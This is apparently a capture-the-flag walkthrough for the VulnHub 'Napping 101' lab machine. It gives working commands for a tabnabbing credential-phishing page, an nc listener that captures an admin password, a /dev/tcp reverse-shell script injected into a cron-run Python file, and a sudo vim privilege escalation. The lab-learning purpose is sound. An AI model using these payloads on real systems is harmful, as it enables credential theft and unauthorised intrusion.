




# <a href="https://www.vulnhub.com/entry/napping-101,752/"> [Napping 101] </a> 

## Reconnaissance
- After booting up the machine use `netdiscover` to find its ip address
  ```markdown
  ### Netdiscover is a comprehensive address reconnaissance tool capable of passive and active scanning for online hosts in wireless networks without a DHCP server, and it can also be used in hub/switched networks, built on libnet and libpcap.
  ```
  
  ``` markdown
  Currently scanning: 172.21.26.0/16   |   Screen View: Unique Hosts                                                                                                                                                                        
   67 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 4020                                                                                                                                                 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
  -----------------------------------------------------------------------------
  10.0.2.7        08:00:27:49:ee:4d     26    1560  PCS Systemtechnik GmbH
  10.0.2.1        52:54:00:12:35:00     36    2160  Unknown vendor
  10.0.2.3        08:00:27:09:db:60      5     300  PCS Systemtechnik GmbH
  ```
 - In my case `10.0.2.7` appears to be the target ip address
 - I will proceed further by determining the running services on that machine by using the -sV option with nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap 10.0.2.7 -sV         
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-20 09:10 +05
Nmap scan report for 10.0.2.7
Host is up (0.00042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
```
- There are 02 services currently running: ssh on port 22 and an apache web server on port 80.
  
## In burpsuite
- Let's take a look at that website.
- In burpsuite community edition create a temporary project
- Click on the target tab
- Then open the browser and access the website by entering `##targetIp:targetPort` or `10.0.2.7:80` for me
- You should land on something like this

  

- The login page source code seems doesn't give us any lead
- So we will create an account to proceed further
  
  

- We can now login
  
  

## Inspection
- The website allows us to enter any link in the Blog link form
- On submission it creates an hyperlink when clicked opens a new tab
- That's where we got something
  
   

- The website is vulnerable to Tab nabbing.
  - What is tab nabbing?
    - imagine you're reading an interesting article on a website, and within this article, there's a link that catches your eye.
    - You click on it, and the link opens in a new tab in your browser.
    - While you're looking at the new tab, the original tab (where the link was) quietly changes to a fake page. This fake page is designed to look like the legitimate website.
    - When you return to the original tab, you might not notice it has changed. If the page now asks you to log in again, you might think you were logged out automatically and re-enter your credentials, not realizing you're giving your login details to an attacker.
  - It is said on the welcome page that all links will be reviewed by the admin, so we got ourselves a lead.

## Exploitation
- create a temporary folder where we will host our 'fake' website
- The main idea here is to capture the target (which is now the website admin) credentials
- For that we will need him to connect to our machine where we will have a listener waiting for him
  ```
   ┌──(kali㉿kali)-[~/Documents/fake_website
  └─$ cat submit.html
  <!DOCTYPE html>
  <html>
  <head>
    <title>hehe</title>
  </head>
  <body>
    <script>
        window.opener.location = "http://10.0.2.8:8082/index.html";
    </script>
  </body>
  </html>
  ```

- note that `10.0.2.8` should be replaced by the attacker ip address and you should use any unoccupied port you want
- and window.opener.location is the JavaScript code that attempts to change the legit website tab to the one hosted on our machine. 
- Hence we will also have a perfect copy of the target login page which we will rename `index.html` in the same folder
  - For this you can just `wget http://10.0.2.7/index.php ` and rename with `mv index.php index.html`
 
## Server start
- Start a simple python server on an unoccupied port
  ```
  ┌──(kali㉿kali)-[~/Documents/fake_website]
  └─$ python3 -m http.server 8081
  Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
  ```
- Set up a listener with `nc -lnvp 8082`. The port mentioned should be the same used in
`window.opener.location = "http://10.0.2.8:8082/index.html"`

## Attack
- Provide in the victim form the link pointing to your fake page in this fashion: `http://yourIpAddress:serverPort/submit.html`
  
   

- inspect your listener and after a few seconds
  ```
  ┌──(kali㉿kali)-[~]
  └─$ nc -lnvp 8082
  listening on [any] 8082 ...
  connect to [10.0.2.8] from (UNKNOWN) [10.0.2.7] 33238
  POST /index.html HTTP/1.1
  Host: 10.0.2.8:8082
  User-Agent: python-requests/2.22.0
  Accept-Encoding: gzip, deflate
  Accept: */*
  Connection: keep-alive
  Content-Length: 45
  Content-Type: application/x-www-form-urlencoded
  username=daniel&password=C%40ughtm3napping123
  ```
- mind that the password is url encoded and you can easily decode in burpsuite or online.
- from now on we can get access to the target machine through ssh or directly from the vulnerable machine interface
- I choose to proceed with ssh. `ssh daniel@10.0.2.7 -p 22 `
- Enter the decoded password ( which is C@ughtm3napping123 if not already done)
```
daniel@10.0.2.7's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 20 06:37:16 UTC 2024

  System load:  0.0                Processes:               137
  Usage of /:   46.0% of 18.57GB   Users logged in:         0
  Memory usage: 15%                IPv4 address for enp0s3: 10.0.2.7
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

336 updates can be applied immediately.
261 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Mar  1 16:00:05 2024
daniel@napping:~$ 
```
- after checking the home directory I found a folder named adrian so a quick check up
```
daniel@napping:/home/adrian$ ls -al
total 40
drwxr-xr-x 3 adrian adrian          4096 Feb 23 08:16 .
drwxr-xr-x 4 root   root            4096 Oct 12  2021 ..
lrwxrwxrwx 1 adrian adrian             9 Oct 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian          4096 Oct 11  2021 .cache
lrwxrwxrwx 1 adrian adrian             9 Oct 12  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .profile
-rw-rw-r-- 1 adrian adrian            75 Oct 11  2021 .selected_editor
-rw-r--r-- 1 adrian adrian             0 Oct 11  2021 .sudo_as_admin_successful
-rw------- 1 adrian adrian             0 Oct 30  2021 .viminfo
-rw-rw-r-- 1 adrian administrators   540 Mar  1 16:05 query.py
-rw-rw-r-- 1 adrian adrian         15200 Mar 20 07:00 site_status.txt
-rw------- 1 adrian adrian            22 Oct 12  2021 user.txt
```
- `query.py` is an interesting finding as it appears that we can access it and even modify it

```daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
## Reverse connection
- Now that we know that this file is executed with adrian priviledge we will attempt a reverse shell
- we will create a bash script in the shared memory named reverse.sh `daniel@napping:/dev/shm$ touch reverse.sh` and `chmod +x reverse.sh` to ensure that it can be executed
- open vim and paste the following script
``` bash
#!/bin/bash
# Replace "ATTACKER_IP" and "YOUR_PORT" with your attacker's IP address and port
ATTACKER_IP="10.0.2.8"
ATTACKER_PORT="1234"

# Connect back to the attacker's machine
/bin/bash -i "/bin/bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
```
- Now we wil call the connection in the `query.py` file and set up a listener in our machine
```
daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests
import os

os.system ("/usr/bin/bash /dev/shm/reverse.sh")

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
- After less than 2 minutes you should get a reverse shell
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.0.2.8] from (UNKNOWN) [10.0.2.7] 42626
bash: cannot set terminal process group (3993): Inappropriate ioctl for device
bash: no job control in this shell
adrian@napping:~$ whoami
whoami
adrian
adrian@napping:~$ 
```

## Further escalation
```
adrian@napping:~$ sudo -l
sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```
- it appears that adrian can run vim with sudo priviledges
- which means that we can attempt to invoke Vim with elevated privileges using sudo, and then execute a shell command (/bin/sh) from within Vim.
- `sudo /usr/bin/vim -c ':!/bin/sh'`
  
     

- Finally we can now access the root flag located in `cd /root`
# THE END

